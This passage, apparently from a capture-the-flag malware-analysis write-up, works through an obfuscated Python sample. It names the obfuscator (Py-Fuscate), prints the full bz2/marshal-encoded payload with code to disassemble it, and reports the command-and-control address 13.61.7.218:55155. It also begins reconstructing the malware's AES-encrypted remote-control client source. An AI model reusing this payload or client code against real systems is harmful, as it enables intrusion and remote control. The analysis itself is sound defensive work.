8b\x1a!\xbf\x0c\x14\x12<{f\xa2\xa0\x05u\xb2\xf9\xf2\x9a\xde\x95r\xa0\xf5>"\'\xe9\xe8\xae\x12\x1a\x12\x92Q\x11\x91\xa8"\xe2\xbf0\xb2\xe5Z\x88D\xe6\x01\x88#\xd3\xaa\xabV}\xbd\xd6Kh\x1aOG\x96*\xa0\xd7\xad\xd8\\h\xc3U\x80\x7f\xa0\xb3\x04\x86\x0f\xa4\xb2\xb5\xfb*VV\xa5\xab\xc5 \xba(U*\x1e8\xa7\xa1R\x17\xb5H\xcbh\xf8\x1d}\xf5I\xa7UY\xca8#\xf6k!&|>\x13(<\xb3\xcf;#\x8b\x11\x8e\x9f\x07I\x03 \x13\xf8\xde:\xceW\xc0,V\xc0X@\xd0\x02\x04bT+\xc3\xd0\x14uu\xeb\xbbE\xa4X\xef\xed\x1c(\x9a\xcc\xf9n+\xf0\xe0f\x9fv/v6\xed\xd2\xc6/\xca^\xd0\x8bt\xe9&\xdc\t\x93\x80\x8a\xa4F\xa6xn`\xb7\x9d\x86\xc7c\xa0Y1\xe6\x89\x92\x08h\x8b\xf8)8?\x13\n\xe6<\xd8\xea5\xec\x80\x01b\xc6\\\xbe\x90\x07\xc8.a\xca\xca\x91\xd8hQ\xb1\xc4\xf9\xf2\x1a\x95\x8c\xe1h0\r+\xb0:\xd4\x02$!PC\x83P\xe4L\x99\xb9\x16q\xd4\xa1\x98\rJ0\x97\xd7\xdb3|\x80\x81\xe8\xe1.\x00@\xa8\xca\xc7\xd5\xfcK\xc9\xaa\xc6\xec\xc7\x97\xbc\x99\xb6m\xf1\x87\x9aM\xbdO\xd3?\xbc\x97\x93\xaflr\x9c=\x8f\xce\xfe\xd4*\x03\x92?*T\x18<\x85\xc2+\x04\xc3@\x04\xf5\xf3\xc0ji#\xe4p\x18\xb5\xcd\x1f`b\x83\x99\xa3\xfc\x00?\x8fK\xbc\xa6g\xd9\x00\xd2v\xdf\x97+\xd3\x961\xa8zm\xe5\x9bP\x04\xf2L&? \xc0`\xb4\x00\xca\xf0a\xbe9C\x80b\x87E\x83\xceh\xf93t}[\x1f\x9a&\xfa\x0c\x1a`\xe5\xcc?e\xdb\x06\xe3<\xf7IGH\x9c]%hp\xec?$\x19\xb9O\xd1)\xb9\xb2\x0c\xb7\x03ZGX\xe3\x92\x08\xd2\xc9VBp,\xb7\xec\x943\x8a\xd2\x1f5A@HQ\x9d \x80\xa3p8\xf1\xa2M\x07|\x95n\xe3\x92k\xf9\xb5\xd0 \xa7\xc0\x85/\xfcC]\x04<\xd5\n5\x87\x11\x17\xe4o@\x9b*\xc0\n\xc3NkOh\xf8n \nj?\x9f=\xf5}\x06\x15h\x977A]\x0b\xb8\x94\xbe\xb0\xd7\xbe\xba\x8e\xb7\xafn\xa6\x9f#\x08?5\xde\xddm?\xec\xc6\xaa3\xd6jV\x0b.\xeam\xab\x94`\x95O\x13\x188\xc6\xc8I$9\x83\x7fil\xf2\xf9\x17\x19h\x93*\xbfk\xb2\xea#\xad\xbf\xcb\xe5{C\x15\xcef^\xca\x88\x99Wya\xac\x8c\xdb\x11\x16\xd9\x07\x05y\xe5C\xb4,\xc2\xc3\xcdP\xd2\xec\xe4\xceT$\xaa*\xa1&[[\x8d\xb7\xc5\x9b\xc3C\xba)_F\xba\xbd\xac<N7)g\x9f\xc1\xd8p\xab\'\xd9#K\x966z\xfc\x9d\xeb\xd7w\xb7\xd0\x89\xa4\xb9 \x88\x88\x846\xb5\xa1\x84J\xce\xa2\x0b\xe877\xf7\xf3\x17\x0c\xd3\xd0)\xe3\x07\xdcvm\xa0#\x96\xffx\xaa\xe6E_\x07aO\xefj\xba\xe3c\x9b\xdel$\x83h\x9e\tL\x1f\xa0}%"p\x9c\xd4\xd1\x9e\x8e\xfdf]\t\xac#\xbf\x15\x9c<\xf3-\xc2Zj\x99\xae\xc8.\xb3\x9d5\xfa\xe2\xae\xea\xba\xf4\xc63\x04Ot\xf9\x12\xd1{nMJB\x1b,\xbc\xbek\xa0\xca\xa6\xa5\x93/\x0f\xa1)Y\xb4v2L3\xa5\x8d\x0cq(\x0f\x18\x10\x82P-"\xe5\xe1\xe8\xb3\xa3SxJ\xcc\x0c\xdc\xae-n\xf7}w\x19\xae.\xcbi\\b\xdf0[\x10\xe9\x1a2xVZK\xd0S\x88\xd2c&+\xf7\x83Oj\x9d\xab\xb7Uh"z\x97\xf0\x9d\xa7\x92\xd6[(w\x0e)\xc8\xffM|\xa3j\xa15\xc7\x04\xe4Z\xd8\xa2\x88\x08\r\xea\x90J\xbaM\x01\xb0\xd2uQ\xc0\xa1\xcd\\\xadV\xe2\xf3.\x0bl\xe8\xa9^$\xc9\x95\xf6T\x13W\x18\x824\x016\xc8%,\x08\xbe\n\xa2\xd5AB\xdd5[=m7:\x06\xa0\x80\x86\x04\xb5\xe5E\x83K>qyY\x94S\xb8\xd80\xd6[\xc2\x84k\x0b\xdb\xec\x15\xb6\xcf-\'\xf0e@f\xa9Q6U\xcbi\x13N\xbas]3Q\xb1\x8diFP\xbb!P\xff\xd2\x82n\x98\x9dH^\xd6k\xd3\x8e%\xe0k\xca\x9b\xd4\xff\x90\xba-Q\x15\xa5\xd3\x14O\xe0\x12\x06]"\xb2\xa8\x82\xac`\'L\x98\xbd\xbcb;\xad\x13T\x95\x15o\x1a!\x89\xc3\xadN|z\x9bv\xf9\x98\x14\xca\xff\xe2\xeeH\xa7\n\x12\x11\xa5N\xe0\x00'))
except Exception as e:
    print(f"Error: {e}") 
```

Checking the output, I could partially see some functions of the script.


I could also see the application that was used to obfuscate the script.


The answer to this question is `Py-Fuscate`

#### Fourth question

I tried to get the bytecode of the script using this code:

```python
import marshal,lzma,gzip,bz2,binascii,zlib
import dis

code =  b'BZh91AY&SY\x8d*w\x00\x00\n\xbb\x7f\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xfe\xee\xec\xe4\xec\xec\xc0?\xd9\xff\xfe\xf4"|\xf9`\r\xff\x1a\xb3\x03\xd1\xa0\x1e\xa9\x11\x07\xac\x9e\xef\x1e\xeez\xf5\xdb\xd9J\xde\xce\xa6K(\xe7\xd3\xe9\xcd\xa9\x93\rS@M\x134&\r\x11\x94xF\x11\xa6\x89\xb2\x99\xa6\x94\xf0\x1ai\xa1\xa6\x9a\x03AF\xd1\x1e\x9e\xa1\x9a\xa7\x89\xa6L\x84\xf5\x1ayC\xd44z\x993S h\r\x0f)\xe9\x03@\x03LG\xa9\xa0\x1a\x04DI\xe8\x19$\xf4\xc9\xe92a\xa3D\xc9\x9aL\x11\x81O\'\xa4\x9e\x935=M\xa4\xd0\xd1\xa6&F\x81\x93L\x86\x80\x00\x00\x06\x80\x00\x00\x00\x00\x00\x00\x00\x00\rM\t4\xd1\x80L\t\x91\x18\xa9\xe4\xc6\x94\xd8\xa7\xb5OS\xc9\xa4=#\xf54\xd4\x06j\x07\xa9\xeaz\x9a\x1e\xa1\xa0z\x86\x83M\x03jh\x00\x03A\xa6@\x1a\x00\x00\x03\xd4\x00\x1e\xa7\x944\x005=\x10\x93\x10\x9b@\x994\xc8\x99\xa3J\x1bM\x1ajyOF\xa6\x98\xcab\x0c\xd16\xa0m&\x8fH\xd3@44\x01\xa0\x00\r\x03@\x004\x19\x00\x00\x00\x004\x1a\x01U44\x00\x03@\xd0\x1a\x0044\xd0\x06@\x1a\x00\x004\xd0\x18\x98\x86@42d\x00h\x1ad\x00\x00\x00\x004h\x00\x00\x00`\x91$Bhh4`\x9a\x19\x04\xc3@\xa9\xedS\xf4S\xd2\x1b\xd4\xda&M&\xd2m#\xcai\xfa\x8c\x93e=@\x1e\x91\xa0z\x8cjh\xd1\xa6\x80\x00\xd0\x004\x1e\xa0\x01\xa0\x1a4i\xb54\xd3\x10\x1f\xdf\xcb\x98\x99\r\xa1\r\x8c`\xd86\x0cd\xe9\xc3\x06\x9bm6\xdbm\x1b\xf1"\xf0\xd2\xa7\xd5p,\x171gAcG]V\xcfvr\x9e\r\x9d=\x13?N\xfa\x8bw3l`\x0e\x1c\xda\xdc\xb0VU\xa0\xe7\x8df>$\x10\xb5\xf2+fu\xd6\xd5\xed\x9a\x9c|b\xb1\xc4\xd1P\xd0\x95\xf8\x10\xc0\xb8\xd2\x10\\ 9\x83UF#^H\x12\x12\x91\x98\x9c\x1d\x89BQ\x8eC\x92\x066\x8bDp\x8a\xaa\x03e%\xad\xc4\xe5o\x8f\x01\xa0\x11\x84\xac\xb8H\x01^\xb7\x84y\xed\x0cU\xb37\xd7[w\xddm\xf4\xf9\xdb\xee7\xa6\x98\xe2-A\xea\x1c\xd6\xbe\xbf1\xe2\x03\x89A:2\xb0n\x0b\xc169\x8a\xab\n\\\xa4\xa0\xbb{ \x11\xa7\x1e-\xbc,P`F\xad\x08\xe1\x8dY\x9b\x02,\x8cs#eg%\x97\x071\xda\xe8XA|>\xa1\xae\xaah%\xc4]\x95w*4i[\x85\xee\xee=\xcf\x935q\x02uo"\xaf\x81/\xc0\xca\xbdF;\xf6\xef\xaa\x99A/ \x91\xef\x0b\xe1\xd9\xa4`w\x9e\xc6\x88\xf2\xa9S\xe3\xa6x\xaf|\x0b*IE\x02\x8a(NL\x00]?\x12\x10p=w\xc6\x92G\x8a\xd2\xff\x17}~y3\xe3\xe9f\xf1\xff\xaf\xf2\xa5\xb9\xa5\xcc\xfd;W\xdd\x1e\xcd\x9e\x0bD5\x0b\x0f\xc6wFW\\\xd5\x8d Gh\xc1\n|x2\x99&\x8e\\\xa5Ba\x7f6!\x10\xe4\xd0p\x18\x90\x97k4\x1a\xec@\x1b~~\x8d\xfe\xee\x96\x07\x8f\xd6\xe1SS\xcdOv\x8c\x89\xd2I\x150\xa5\xdd\xaa>E\x07\xdb\xf8l\x97V\xa0\x1c\x8d\xd9\xa50\x17[h\xd1\x02\x08!f\xad\xea\xa0"\x88\xceC\x0c\x0fVG^\xc0\xea_\x10\xbd\xa1m{5IL\xbb\xd2\x9an\x07\xd9a\x98jgIwr&&\x06\x0c\x8aH\xe73\xdd\xb1\x050\x9f\x1f\x1f\xe1J\'\x9d\x8cY\xa8\x11\x0b\x08\x0fd*\xf2\x9d\xc2\x84$\x10\x8a\xd9\xc1\xe05\xecs\xdeC\x9a\xd1\xb7\x85\x0eNiJj2\x9ag\x12\x94M)\xd2\r\xf3\xa8\x84\xc9\xc2\x06\xe1\x14\xda\xd1\x1e\x1bV\x1a\x0b\xe666\xc6~V\x81/r\x98\x95\xf2g\xc7Mm<\xed\xb0\xe9ko\x01\xcb4\x88\x17\x84\x8a"J\x9bJ\x18\x0ch;\x84\tv\xcb\xbaEL\x99\xdf\xaa)q/t:45\xba\xbf\x84V\xf5\xb3\xad\x8c\xee\x11\xe2(\x18>\xea3\xa9\x98\xa8B\xcf\xb5\xdc\xed\xacI<\x90\x06\x1d0)Y@\x86\x07\x7f\xee\xb9\xf5{m\xdf\x83Hf\xb3T\xd2\xdf\x9c\xc6\xab\xac\x13\x99\xcb\xec\xf5K\xf2\x80\xce\x9fC\xf4w\xeb\x1fa\x08\xd8\r\x80<%\x90w\x8b\xe8}\x8d\xda\x96\xcf)\x1a\xbaD.\xa3\xc2\xe5E\xe3\xc9p\xa8&w\x10\x14\xc6$v-I\xd9\xbd\xcf\xbf\xe1\xce\x19\xcdf\x07\x0b\x7f\xd7\xc8:\xa6nw\xfc=M\\n\xc7\x02\x96\n\x85".j\xa8G}\x04\xef\x1e+\xb0)4\x82G_\x05\xfe\xbe\x94\xf3\x03\xd4*\xe2\xf7T\xa8\x97\x97\xc3X\x8a\x9a;\x9a\xbei\xc9\xad\xd1\xd2\xcf\xde4fpz\xce\rY\xa5\xa2s\xad\xf8(S\xf3*\x85\xea$\x14\x18\xb6\x1a\xbb\xc5.O\xc3\xb7\x89\xeb9\x1a4\xd3\xe0\x999r\x99\x9a(\x84\xce\x17\x0bk\xa59\xd2X\x88\x815\xab\x10x\x9f\xb7\xc5\xe7_R\xaa\xaa\xab\xf2\x9e\xe1\xb9\x8aK\x91\xa3\xa1\xa7\xc0\x94\x8f3\xca\x82\x8azY\xc4g\xed\xcf\xa9BO:`\xb5\x1b2\x12\xbb\x89\x17[m\xa2\xe8\xc4\x0ctJ/-\xa5\xbf\xf1\xffq\x7f\xda\x9a\xd9\x00\xb2\x0b\x98L\x7f\x17\xb4\xc9g}\x1e\xfeSh \xc3\x98fIq\x05]\xb1\x8aB\x98\xc7\x94\x03=2&\x06v@s\x0fX\xb3\xadZ\xcf\xac\xf6\xae\xe2\x0b\xaa\xe4\x99\xf3\xf5<\xd7\x81mu\x87\xb5\x97\xd2\xc3\xb4p\xb5\xad\xd9y\x15\xf2\x06,\xa7;\xe2\xe4\xcaH\xbf\xd5\x92@\xae\x0c\x91\xddD\x9by\xd5\xccj\x7f\xa9\x19\xad\xa3\x07\xbdI\x84\xa9|k/\x0f7=ji\x12\xba\xd4\xfaI\x8c\xa9\x94\n\x9b\xa43\x0e\xa6O\xd3\x8d\xf5\x83\x06\xd8\xaehhl\x05*;\xda\xaa\xd9he\xc8\x8f2!\x98\xd6-B\xa9\xcf\x9a\xb9_\xa4\xec\xda\x08<\xe3\r\xeem\x1el\xd8\xfc}3\xc4\xbal\xe5,P\xe4^\xae-\x97\x91j0\xec\xc8bB\x85\xd1.\xf5T\xa4\xf1\x83\x89\xc4-\\\x00\xf0\xbb\x1a\xd2\x89K\xb58\x96\xe2\x88\xdd<q\r\xbb0\xc4Ac\x95.v\x94\x08>\xca\x8b\xf5\xa1\xaf\x1fVH\x16\n\xfe+\x02\x9f\xe9\xa7VP\x1a\x03m\x01\xab\x0b\xf8\xd1&\xacq\xadg\x0f\xfc\x98N\x91XRQ\x88\xcf- 4K\x84q"\xec\xb2\x8c\xe6e\x86 \x9ff\x10\x83p\xc5\xc1C\xf4\x8c5\xda\xe5\x82)\xcf\n\xbfWZ\xc0\xd1\x9b`\xacFt\xba\xed\xaf#\xc8\xf8\x96\xe9=Zd\xa4h\xa3d>\xb2\xec\xac\x98\xe6%\xca\xb2r\xe2\xd7\xb5\x80\x8c\x1cb0\xadC\x8a\xdb\x1e\x1d\x9ek\xf0>\xcf\'7=\x9b\x19\xdee@\n\xaa\xac\xd2N%$\x91]\xa7\x13c\xe7\xce\x95\x96\x81Yh\nS\xd1\xdc\xb5\xe3d{\x13\xc5\xeau22\xcc\xec\xe1\x19\xb6\n\x8e?\n\x01\xdey\x04t\x02"@\x82\x12J\x88\x86\x1b\x83Un\x03Uy\xed\x82\xc3\x19\xdd\x86\r\xda\x1a\xde\x7f\x14\x90\xb3\xaf?\x05\xd3\xf0\x05\xe9\x85\x83\x99m\x8ae\x86\xd59Zl\x83i\x04u<\x92]\xe9\xca\xbc\xf5k\xcd\x8e,\xc1\xfcU\xc7\x84%|>\xfbt\x9c\x04\xf0}\xceQ|Wy\x9eN\xa8\x19#\x12\x94\xf1\xfdX5`\x19\x0e\x87NwC\xa5\x80p\xb1\xd9\xc73F\xe8\xa5\x9c\x00\xe5\xb1)\xd3]\xa6\r\x9d\x1a\xdd\xa4\x91\xb9z}\x1bg\x12\x9e<\nB\x88\x0e\xdf:\x1c\t\xc3\xa3\x85\x1b\x98y\xec\x0c\x9a\x12Pr\xcdC\xea1\x7f\x01\xef\xc3\xb0\xdd16\xe7\x1e\xf7\x1fv4\x17\r\xd3\x86\xceE@\xce\x15T\xce\x00\xf3@\xd9\r\x05\x19@V\x1c"\x86\xa6\x9c&,\x05\xa6%\x02n(^9\x86\xa65#\xc8\xb5]\x88\x8e\xa2,1\xc3u2\xe0\xa8 \x01\xff"|\xffG\x0b6\xbeU\x8a\xf7;YD\xda\xb4u)l\xf6~\'\x0e\x9b\xb3/\x98Q1\x04\x12JI[\x11*\x81\t\x07\xcb\xadw\xc9\xbf\xbf\xbe\xbaa\xc6\xce\x9e)\x98v\x15\x01j\xa15\xbd\xd0\xcb.\xe3\xd7\xa2`\x15\x9e\x854\xd3\x1am\r\x13A\x9a\xa5\x0b\r\x81\r\xb9\xb3%)Bmr\x12L\r>\x87\x07K\xea\xden\x87\x01c6%\xea\xa5\xd8\xb54\xc0\xca\xb8SBd{O\x9c \x88\x86\xee-80\x81Vv\x08[P\xc221\x9e &,t\x11/9\xe0\xd0\x1f\x1d\xcd\x94\xb9\x95\xc7V\xcb\xd6\xf2M\xf7\xf4gT\xa2\x19\x94\xd9\xfb\x7f\x15\x90\xc5\xb2&\x9e}\x0cq\xe8\xdc(\x1a{l\\\x88\xb8\xab=\x8b\xaaCm\xc0\xcb\xb5w=\xf8\xff\xa3\xdfY\x94\xa5\xa5\x9d0\x04U\x8al\xb8iw\xa3\xb0%\xf1 \x03H\x80\xc9$v\xe6\x98|#DYP\xa4\xfe\'\x04\xe0&\x88+\xeb\xce:\xa0cm,\x1aQ\xfdN\x1c\x97\xa3\x98\xb5q\x1c\xefE\xabEC\xaa\x82\x00\x8c\xcb\xee\x8d\xd6l\xe5\\\xca;\xf9d\xd4\xa5\xaen\xfaW=\x88kU9\xfe\x95&c\x13\x0cL7+5\xe2\xde_\x9f\xf6t\x05Hn\xe2\xff\x9dzi\x9a\x03@`u\xea\x98\xb5\x8e\xd9\xa3W\x85\x96O\x85\x9bf\xc1\xb6\xa4x\xa2/=\x0f\xa6T\xde\xac\xc6\x84\\\xa5q \x8eZ\xd5p*-qC%\xec\x85aH\x90>\xc1\x97%B@\x12B"u\xd5R\x0f\x10`&\x9ai\x1cl*F\xefOr\xaee\xaf\xa9\x88q\xa2k93\xe6\xf6\xf5\xa8n\xd0\xf42\xe5<\xf7}\xad\xdc\xd4)L\x11\x97\xd4\x92\x11E\xe1\xa0\xa4\xe4{\x9a\xe6T\xda \xee\x83\xb7\xce\x17\xb0\xb3\x0c\x11\x8f\xc1t\x0c\xb5\x87\x9e\xbb\x0f\x0fql\xe8T\xc5\x02+E\xdd\xbcQ\x92\xb8\xb8\xc8*,(K\tUk\x16\t\x86\xb9@\'\x04\xc1l&\xcf)\x1f\x14V\x0b\x80\xd2\r\xab\xec\x07) \x0c\x0f\x80\xee\x16\x14\xf9\x9c\xcbKE\xed`;5\xa9\xc2\x105X[\x87\xd6j\x95\x18\xcaY\x99\xba\xe6\xe8\x04q\x8344\xceW\x00\x05\xc4\x15\xfb\x82\xea9\xfcJ\xa3L\x8e\n\xc1\xb4\xb3sY\x84`\x98\x99\xccy\x0f{\x02P\x8e\n\xb3\xe5\xeclN\xa8\xb5]\x84!I\x80\xa4\x8at&\xe4eu\xba\x15T\x1fv\x90fx\x81P9\x1a\xf5G\xa9\xa2\x9c\xed\xc4W\xa0\xbb\xa5j\x1e\x1b\xd9%J\xb3z1I`\x19s\xd9\xb0\\\xca\xfdd\xd54!\x829\xc2|\x0c\xed\xdb\x0e\xde:\xcb%l-\xf6\x8f\xef\xde\xe2\xa5h\xb6e\xc5\xc7!\xc6 @B\x97.\xc2,~\xf8\x8a\x14\x94\xeb\x8emR\xf8\xfb\xa5"Qd\xc0\xe6\x81\xbe\x9fc=s\xd6,V\xca\xb1\x80!U\x8c\x82"\xddme\xbc=\xf9\x1b\xfc\x8d\xe6+\xc3\xc8:y\xe2\xfcZ\x1c\x88\x9f{\xdbZK\xb0#,\xb8\x9f\x10\xe1\x03\xb0H\x7f\x89w\xee\xd7\x9dvx\xafo\x98vge%\xdc"\xd1\x0f\x9dQ?\x83N\xe3\xb4\x14j%|C\x08\xb0\x16K\xc1H\x9d\xf8\xbc\xf4\xae\xa7\x8aA\xd0\xbfCM\x85w\x82)c\xcc\xd4\xcaV\xc52j\x14ObB&\xe7NQ\x9e\'93M\x8f`!\xcc\x80#%\x04\xd2\xeb"T\xbe\x8d0\x04\xa5\xad\xa3\xab\xf6\xd5\x86\xe214\xb1\xa6\x12\xa6*t\x94Q\x0c!\xc1\xe0#\x18\x8a\x81\xe4\x12A\xccK\xc6\xa3\xa9\xd0kh\xbb\x11m\xd7\\\xe6\xe8wr\x990\xc0\x83\x85\rC\x9d\xc8\xc7\xfcv\xf8Y/\x93\xc30NFe\xc2\xf7s\x91\xb7B\xa6\x10bb\x11\x18\xb0\x19\xf4\xa1X\xb9\x92\xb3\xdc+\x962\x9c\x0bt\xd9l,&\xe8\x1f\x0b\xfe\xf4\xb7\xcd\x0e\x11\xc9#Z\xb0\x90d2]\x06\x89\xcd\t\\\xa3\t\xad\x8d\x9b\xe5Z\xd0\xa6\xa73q{>_\xd7\xdd\xe21\x83\xa2k\x04DO\xc0Ag;Z\x99;\xdf\x14\x9e<\xe3v\x1d\x99\x8b\x9a\x98d\xe6\x05\xcd)\x94\xc2\x9b:F \xcdG\xdeP\x869\xdd)kg\xd2\xde*\x1a\x9c\x04\x10\x12z\xda4\x8d,\xcb\xec\xcbR\x99\x0f\x9c\x81\x08\xearz\xe5R\x17\'Y.=\x9el\xe9\xc4\xeew0\x08\x06\xc0g/m\xe0\xf04\x1c\x0c\xfcN\xc0Q\xaa\xbf\xc5\xe8\xa0y5\x88\x83\xdet\xa3\xce!e"\\\x13F\xeeo\xf7]\xcd\xa0t\x01F[h\xad\xa0a\xd7\x02\xda5\xcdo\xa9>\xf0\x88P\x9dM\xb3A\xc8\x92\xd6\x8b\x1b.\x8b\x8f\x9b\x8c\xda\x9cQ\xa1o\x14\xeb\'\xeb\x9f?\xf1\xd5\x87P\x0c\xb6g*\x1bqX\x93P=@\x1c\x0b\xab\xec\t\x1dq\xa9\x94\x16\x10u\x0ez\xc7\x9eG*\x12\x06K\xf5\xb8\x1ca\xe7 \x1a\xf0\xb5\xa8\x879\x86\x18\xe2\xb0\x96\xc1]~`ac[\xc2\xde\x83\xa5G2@[2\x96\xc5f\x7f\x17\xa7\n\x1b\x9cU\x06\x07;`\x96\xa31\t\xe8\x94t\xc0\xbdzW\xaeW\xb3^\xf4\x9e\xf6\x834\x0c\xb2"\x8e\x94\xda\xafp\xa4%N\x93\x045C\xa1`A\x02\xc1-h\x80\x8d\xb6\xc9d\xc5\xde\x98-\xa2\xbf\xafB\x8c\xd2\x9a\xbe\x98,\xc4\xfd\x93(V\xd1j\xd3\x1cA\xb5\xae\x7f\xae\x8e\x9c\xb0)\x8b5\x96\x0c\xffR\x9e\r\t\xae24\xf6\xf6\xfb\x85=\xc7\x8dd\xc8O1\xcb\xce\xb2*\x98\x1d\xb5LW\xaft\xcb\xcb\xbe)\xfc\xc0L\xacJ\x03\x95\x1b\x85\x94\xd0^\xe2uv/\x00\x10\r\'\x1e\xc7\xb5\xfd\xe7\xe6\xaf\x03\xa6\'\x88U\xab\xd9\xa85\x8a\xca\xd4\x84o\xb0\x83\xc4\xb9\x1a\xf4\x8c\xc0\xb9T\xae\x86\xa2cP[\x80D\x1a\x91z\xca\xb0\x83`4\x84\x8aM\';r\x91d%\x99\x89\xa7\x10Xp\xc8\x96\\\x82[\xe8\x9b\x01\xc0\xdd\x07\r\x10\xc7\x85\x83R\x04Tc\x1e\x99<)\xc9\x98`\x16\x9c\x82bl\xac\xa9I\xedh+P\xcc\xa7l\xb17\x97S\x1b\x83W\xbe\xa5|\x083ZJ\x80\xec\xcfm\xc8\xd9\x8b\x1a!\xbf\x0c\x14\x12<{f\xa2\xa0\x05u\xb2\xf9\xf2\x9a\xde\x95r\xa0\xf5>"\'\xe9\xe8\xae\x12\x1a\x12\x92Q\x11\x91\xa8"\xe2\xbf0\xb2\xe5Z\x88D\xe6\x01\x88#\xd3\xaa\xabV}\xbd\xd6Kh\x1aOG\x96*\xa0\xd7\xad\xd8\\h\xc3U\x80\x7f\xa0\xb3\x04\x86\x0f\xa4\xb2\xb5\xfb*VV\xa5\xab\xc5 \xba(U*\x1e8\xa7\xa1R\x17\xb5H\xcbh\xf8\x1d}\xf5I\xa7UY\xca8#\xf6k!&|>\x13(<\xb3\xcf;#\x8b\x11\x8e\x9f\x07I\x03 \x13\xf8\xde:\xceW\xc0,V\xc0X@\xd0\x02\x04bT+\xc3\xd0\x14uu\xeb\xbbE\xa4X\xef\xed\x1c(\x9a\xcc\xf9n+\xf0\xe0f\x9fv/v6\xed\xd2\xc6/\xca^\xd0\x8bt\xe9&\xdc\t\x93\x80\x8a\xa4F\xa6xn`\xb7\x9d\x86\xc7c\xa0Y1\xe6\x89\x92\x08h\x8b\xf8)8?\x13\n\xe6<\xd8\xea5\xec\x80\x01b\xc6\\\xbe\x90\x07\xc8.a\xca\xca\x91\xd8hQ\xb1\xc4\xf9\xf2\x1a\x95\x8c\xe1h0\r+\xb0:\xd4\x02$!PC\x83P\xe4L\x99\xb9\x16q\xd4\xa1\x98\rJ0\x97\xd7\xdb3|\x80\x81\xe8\xe1.\x00@\xa8\xca\xc7\xd5\xfcK\xc9\xaa\xc6\xec\xc7\x97\xbc\x99\xb6m\xf1\x87\x9aM\xbdO\xd3?\xbc\x97\x93\xaflr\x9c=\x8f\xce\xfe\xd4*\x03\x92?*T\x18<\x85\xc2+\x04\xc3@\x04\xf5\xf3\xc0ji#\xe4p\x18\xb5\xcd\x1f`b\x83\x99\xa3\xfc\x00?\x8fK\xbc\xa6g\xd9\x00\xd2v\xdf\x97+\xd3\x961\xa8zm\xe5\x9bP\x04\xf2L&? \xc0`\xb4\x00\xca\xf0a\xbe9C\x80b\x87E\x83\xceh\xf93t}[\x1f\x9a&\xfa\x0c\x1a`\xe5\xcc?e\xdb\x06\xe3<\xf7IGH\x9c]%hp\xec?$\x19\xb9O\xd1)\xb9\xb2\x0c\xb7\x03ZGX\xe3\x92\x08\xd2\xc9VBp,\xb7\xec\x943\x8a\xd2\x1f5A@HQ\x9d \x80\xa3p8\xf1\xa2M\x07|\x95n\xe3\x92k\xf9\xb5\xd0 \xa7\xc0\x85/\xfcC]\x04<\xd5\n5\x87\x11\x17\xe4o@\x9b*\xc0\n\xc3NkOh\xf8n \nj?\x9f=\xf5}\x06\x15h\x977A]\x0b\xb8\x94\xbe\xb0\xd7\xbe\xba\x8e\xb7\xafn\xa6\x9f#\x08?5\xde\xddm?\xec\xc6\xaa3\xd6jV\x0b.\xeam\xab\x94`\x95O\x13\x188\xc6\xc8I$9\x83\x7fil\xf2\xf9\x17\x19h\x93*\xbfk\xb2\xea#\xad\xbf\xcb\xe5{C\x15\xcef^\xca\x88\x99Wya\xac\x8c\xdb\x11\x16\xd9\x07\x05y\xe5C\xb4,\xc2\xc3\xcdP\xd2\xec\xe4\xceT$\xaa*\xa1&[[\x8d\xb7\xc5\x9b\xc3C\xba)_F\xba\xbd\xac<N7)g\x9f\xc1\xd8p\xab\'\xd9#K\x966z\xfc\x9d\xeb\xd7w\xb7\xd0\x89\xa4\xb9 \x88\x88\x846\xb5\xa1\x84J\xce\xa2\x0b\xe877\xf7\xf3\x17\x0c\xd3\xd0)\xe3\x07\xdcvm\xa0#\x96\xffx\xaa\xe6E_\x07aO\xefj\xba\xe3c\x9b\xdel$\x83h\x9e\tL\x1f\xa0}%"p\x9c\xd4\xd1\x9e\x8e\xfdf]\t\xac#\xbf\x15\x9c<\xf3-\xc2Zj\x99\xae\xc8.\xb3\x9d5\xfa\xe2\xae\xea\xba\xf4\xc63\x04Ot\xf9\x12\xd1{nMJB\x1b,\xbc\xbek\xa0\xca\xa6\xa5\x93/\x0f\xa1)Y\xb4v2L3\xa5\x8d\x0cq(\x0f\x18\x10\x82P-"\xe5\xe1\xe8\xb3\xa3SxJ\xcc\x0c\xdc\xae-n\xf7}w\x19\xae.\xcbi\\b\xdf0[\x10\xe9\x1a2xVZK\xd0S\x88\xd2c&+\xf7\x83Oj\x9d\xab\xb7Uh"z\x97\xf0\x9d\xa7\x92\xd6[(w\x0e)\xc8\xffM|\xa3j\xa15\xc7\x04\xe4Z\xd8\xa2\x88\x08\r\xea\x90J\xbaM\x01\xb0\xd2uQ\xc0\xa1\xcd\\\xadV\xe2\xf3.\x0bl\xe8\xa9^$\xc9\x95\xf6T\x13W\x18\x824\x016\xc8%,\x08\xbe\n\xa2\xd5AB\xdd5[=m7:\x06\xa0\x80\x86\x04\xb5\xe5E\x83K>qyY\x94S\xb8\xd80\xd6[\xc2\x84k\x0b\xdb\xec\x15\xb6\xcf-\'\xf0e@f\xa9Q6U\xcbi\x13N\xbas]3Q\xb1\x8diFP\xbb!P\xff\xd2\x82n\x98\x9dH^\xd6k\xd3\x8e%\xe0k\xca\x9b\xd4\xff\x90\xba-Q\x15\xa5\xd3\x14O\xe0\x12\x06]"\xb2\xa8\x82\xac`\'L\x98\xbd\xbcb;\xad\x13T\x95\x15o\x1a!\x89\xc3\xadN|z\x9bv\xf9\x98\x14\xca\xff\xe2\xeeH\xa7\n\x12\x11\xa5N\xe0\x00'
print(dis.dis(marshal.loads(bz2.decompress(code))))
```

The problem I faced was that the opcode changes with each Python version, so I needed to find which version of Python was used. After some time stumbling in the dark, I was able to determine that Python 3.13 was used. Using Docker to run the script, I could get the opcode.


I could see the answer to question four in the opcode.


The answer is `13.61.7.218:55155`.

#### Fifth question

Using some support from an LLM, I was able to reconstruct the Python source code from the opcode:

```python
from os import popen

import socket
import threading
import os
import time
import random
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()

BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'
CONN = True


def enc_mes(mes, key):
    try:
        cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
        cypher_block = 16
        if type(mes) != bytes:
            mes = mes.encode()
        return cypher.encrypt(pad(mes, cypher_block))
    except:
        return None


def dec_file_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    cypher_block = 16
    s = cypher.decrypt(mes)
    return unpad(s, cypher_block)


def dec_mes(mes, key):
    if mes == b'':
        return mes
    try:
